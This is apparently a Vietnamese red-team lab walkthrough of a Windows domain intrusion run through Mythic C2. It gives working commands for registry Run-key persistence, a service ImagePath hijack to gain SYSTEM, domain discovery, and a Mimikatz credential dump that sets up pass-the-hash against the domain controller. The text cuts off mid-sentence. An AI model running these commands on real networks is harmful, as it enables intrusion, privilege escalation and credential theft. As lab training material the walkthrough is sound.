







# 1. Initial access {#3497b0eb61a4801ebf7cf02629294ca9}

Người dùng jim lên mạng và tải một file bất thường về, giải nén và bấm kích hoạt. File script sẽ tự động invoke đến địa chỉ của hacker, tải và kích hoạt update.exe chạy ẩn

Kiểm tra bên máy kali

# 2. Execution {#3497b0eb61a4809aadede0eff2d75603}

User Jim bấm vào paycheck.pdf và update.exe được chạy. Kết quả:

# 3. Discovery {#3497b0eb61a4805ba018f96a2178f6c6}

Thực hiện một số lệnh kiểm tra cơ bản

# 3. Persistence {#3497b0eb61a480b19815d032294b8865}

Để mã độc vẫn tự chạy lại mà không cần lừa Jim click lại lần nữa. Tiến hành tạo registry run keys:

`shell reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdateTask" /t REG_SZ /d "powershell.exe -WindowStyle Hidden -Command Start-Process 'C:\Users\jim\AppData\Local\Temp\update.exe' -WindowStyle Hidden" /f`

# Step 4: Command & Control (Kết nối Beaconing) {#3497b0eb61a480e69702f7947fd97d06}

Thực hiện `sleep 60 10`

Với chu kì là 60, chênh lệch 10s (50-70s)

# PrivEsc {#3497b0eb61a480fb92cad8af05d6ec6c}

### Bước 2: Kẻ tấn công khai thác (Trên Mythic C2 - Quyền Jim) {#3497b0eb61a48010a1d5db6685fa45ef}

Bây giờ, bạn quay lại vai trò Hacker. Mọi thao tác này sẽ thực hiện trên giao diện Mythic thông qua cái kết nối (Callback) của user Jim mà bạn đã làm sáng nay.

1. **Kiểm tra lỗ hổng (Discovery):** Trong màn hình Interact của Mythic, hacker thường dùng các lệnh kiểm tra quyền để phát hiện ra thư mục Registry bị hớ hênh kia.
2. **Ra đòn (Exploit):** Bạn gõ lệnh sau vào Mythic (lệnh này sẽ ghi đè đường dẫn ping.exe thành đường dẫn file mã độc của bạn):DOS

	`shell reg add HKLM\SYSTEM\CurrentControlSet\Services\SOCUpdater /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\jim\AppData\Local\Temp\update.exe" /f`

Xong bước này thì người dùng phải reset máy thì update.exe mới chạy bằng quyền hệ thống được.  Đóng vai Jim tắt máy và khởi động lại làm việc như bình thường

# Discovery {#3497b0eb61a48053bfb3c83f710b1f5d}

- **Xác nhận quyền hạn:** `shell whoami /all`

	> _Mục tiêu:_ Xem các đặc quyền (Privileges). Bạn sẽ thấy `SeDebugPrivilege` đang ở trạng thái `Enabled` — đây là "giấy thông hành" để bạn thực hiện Step 6 (Mimikatz) sau này.

- **Kiểm tra người dùng hiện tại:**`shell query user`

	> _Mục tiêu:_ Xem ngoài Jim ra còn có Admin nào đang login (Active) hoặc đang treo máy (Disconnected) không. Nếu có Admin đang login, khả năng cao bạn sẽ lấy được Cleartext Password thay vì chỉ mỗi Hash.

- **Liệt kê các tiến trình đang chạy:**`ls` (lệnh builtin của Apollo) hoặc `shell tasklist`

	> _Mục tiêu:_ Tìm kiếm các phần mềm bảo mật (EDR, AV) khác đang chạy ngầm mà bạn có thể đã bỏ lỡ.

---

### 2. Thám thính mạng & Domain (Network & Domain Discovery) {#3497b0eb61a4806d996ed182db5491c6}

Đây là lúc bạn bắt đầu "ngắm nghía" sang máy chủ **DC01**. Vì máy WS01 đã gia nhập Domain, bạn có thể dùng các lệnh `net` để truy vấn thông tin từ Active Directory.

- **Tìm kiếm máy chủ trong mạng:**`shell net view`

	> _Mục tiêu:_ Liệt kê các máy tính đang "show hàng" trong mạng nội bộ. Bạn kỳ vọng sẽ thấy tên `DC01` hiện ra ở đây.

- **Truy tìm danh sách quản trị viên (Domain Admins):**`shell net group "Domain Admins" /domain`

	> _Mục tiêu:_ Biết chính xác ai là "Sếp tổng" trong hệ thống này để lát nữa dùng Mimikatz nhắm đúng mục tiêu đó.

- **Kiểm tra các thư mục chia sẻ trên DC01:**`shell net view \\DC01`

	> _Mục tiêu:_ Xem máy chủ Domain Controller có đang chia sẻ thư mục nào nhạy cảm (như `Backup`, `Finance`, `HR`) không. Đây chính là bước đệm cho Giai đoạn 4 (Lateral Movement).

---

### 3. Tìm kiếm IP và Sơ đồ mạng (Network Config) {#3497b0eb61a48016b2c6d1c01ffa2300}

- **Xem bảng định tuyến và IP:**`shell ipconfig /all` và `shell route print`

	> _Mục tiêu:_ Xác định IP của máy DC01 và xem máy WS01 có kết nối với mạng nào khác không (Dual-homed).

- **Nạp module Mimikatz:**
Trong Apollo, lệnh để dump mật khẩu thường được tích hợp sẵn. Bạn hãy gõ lệnh sau vào ô Interact:
`mimikatz "sekurlsa::logonpasswords"`
- **Phân tích kết quả (Tìm "vàng"):**
Mythic sẽ trả về một bảng kết quả rất dài. Bạn hãy cuộn chuột tìm đến phần của người dùng **Administrator** (Domain Admin).
	- Tìm dòng: **`NTLM: <chuỗi ký tự hexa dài>`**
	- **Hãy copy và lưu lại chuỗi này vào Notepad.** Đây chính là "chìa khóa" giúp bạn đăng nhập vào DC01 mà không cần biết mật khẩu gốc là gì (Kỹ thuật Pass-the-Hash
